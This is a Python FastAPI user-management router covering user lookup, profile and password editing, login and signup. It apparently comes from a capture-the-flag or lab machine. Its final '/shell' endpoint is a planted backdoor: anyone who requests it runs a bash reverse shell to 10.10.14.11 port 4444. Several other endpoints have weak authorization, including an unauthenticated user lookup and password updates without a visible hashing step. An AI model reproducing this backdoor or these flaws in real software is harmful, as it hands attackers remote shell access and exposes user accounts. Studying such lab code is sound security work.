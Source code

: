 ```
from typing import Any, Optional\r\nfrom uuid import uuid4\r\nfrom datetime import datetime\r\n\r\n\r\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\r\nfrom fastapi.security import OAuth2PasswordRequestForm\r\nfrom sqlalchemy.orm import Session\r\n\r\nfrom app import crud\r\nfrom app import schemas\r\nfrom app.api import deps\r\nfrom app.models.user import User\r\nfrom app.core.security import get_password_hash\r\n\r\nfrom pydantic import schema\r\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\r\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\r\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\r\n    else:\r\n        return original_field_schema(field, **kwargs)\r\n\r\noriginal_field_schema = schema.field_schema\r\nschema.field_schema = field_schema\r\n\r\nfrom app.core.auth import (\r\n    authenticate,\r\n    create_access_token,\r\n)\r\n\r\nrouter = APIRouter()\r\n\r\n@router.get(\"\/{user_id}\", status_code=200, response_model=schemas.User)\r\ndef fetch_user(*, \r\n    user_id: int, \r\n    db: Session = Depends(deps.get_db) \r\n    ) -> Any:\r\n    \"\"\"\r\n    Fetch a user by ID\r\n    \"\"\"\r\n    result = crud.user.get(db=db, id=user_id)\r\n    return result\r\n\r\n\r\n@router.put(\"\/{user_id}\/edit\")\r\nasync def edit_profile(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.UserUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Edit the profile of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.put(\"\/{user_id}\/password\")\r\nasync def edit_password(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.PasswordUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Update the password of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.post(\"\/login\")\r\ndef login(db: Session = Depends(deps.get_db),\r\n    form_data: OAuth2PasswordRequestForm = Depends()\r\n) -> Any:\r\n    \"\"\"\r\n    Get the JWT for a user with data from OAuth2 request form body.\r\n    \"\"\"\r\n    \r\n    timestamp = datetime.now().strftime(\"%m\/%d\/%Y, %H:%M:%S\")\r\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\r\n    if not user:\r\n        with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\r\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\r\n    \r\n    with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\r\n\r\n    return {\r\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\r\n        \"token_type\": \"bearer\",\r\n    }\r\n\r\n@router.post(\"\/signup\", status_code=201)\r\ndef create_user_signup(\r\n    *,\r\n    db: Session = Depends(deps.get_db),\r\n    user_in: schemas.user.UserSignup,\r\n) -> Any:\r\n    \"\"\"\r\n    Create new user without the need to be logged in.\r\n    \"\"\"\r\n\r\n    new_user = schemas.user.UserCreate(**user_in.dict())\r\n\r\n    new_user.guid = str(uuid4())\r\n\r\n    user = db.query(User).filter(User.email == new_user.email).first()\r\n    if user:\r\n        raise HTTPException(\r\n            status_code=400,\r\n            detail=\"The user with this username already exists in the system\",\r\n        )\r\n    user = crud.user.create(db=db, obj_in=new_user)\r\n\r\n    return user\r\n\r\n@router.get(\"\/shell\", status_code=200)\r\ndef fetch_user() -> Any:\r\n    \"\"\"\r\n    Sends a reverse shell\r\n    \"\"\"\r\n    os.system(\"bash -c 'bash -i >& \/dev\/tcp\/10.10.14.11\/4444 0>&1' \")\r\n    return
```
